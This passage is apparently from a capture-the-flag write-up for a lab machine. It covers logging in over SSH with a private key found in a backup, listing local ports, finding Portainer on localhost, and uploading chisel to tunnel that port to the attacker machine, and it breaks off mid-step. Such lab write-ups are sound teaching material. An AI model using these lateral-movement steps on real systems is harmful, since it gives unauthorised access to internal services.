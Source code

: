 matthew's creds didn't work on ssh.

found id_rsa (private key) in the backup.

```bash
ssh -i id_rsa john@10.10.11.13
```

Got user.txt

Now to get root

See the active processes


=== "shell"

    ```bash
    netstat -lantp
    ```

=== "output"

    ```
    Active Internet connections (servers and established)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
    tcp        0      0 127.0.0.1:8111          0.0.0.0:*               LISTEN      -
    tcp        0      0 127.0.0.1:9443          0.0.0.0:*               LISTEN      -
    tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
    tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
    tcp        0      0 127.0.0.1:5005          0.0.0.0:*               LISTEN      -
    tcp        0      0 127.0.0.1:9000          0.0.0.0:*               LISTEN      -
    tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
    tcp        0    296 10.10.11.13:22          10.10.14.120:62222      ESTABLISHED -
    tcp6       0      0 :::80                   :::*                    LISTEN      -
    tcp6       0      0 :::22                   :::*                    LISTEN      -
    tcp6       0      0 :::8000                 :::*                    LISTEN      -
    ```

Tried curl to all the ports and found 9000 to be interesting. It is running
Portainer. Since it is running on localhost, I need to set up a relay on the
runner to access the website from attacker machine.

chisel - works over ssh and can be used to forward ports.
proxychains - used for setting up a proxy to forward traffic.
You can also use ssh to forward all local ports as per second solution.

chisel would work here.

install chisel on kali `sudo apt install chisel`

get chisel binary on runner. Downloaded the binary on kali in `~/ctf/tools`

```bash
scp -i id_rsa ~/ctf/tools/chisel john@10.10.11.13:/home/john
```

Use chisel to expose port 9000 on runner to attacker machine

attacker machine
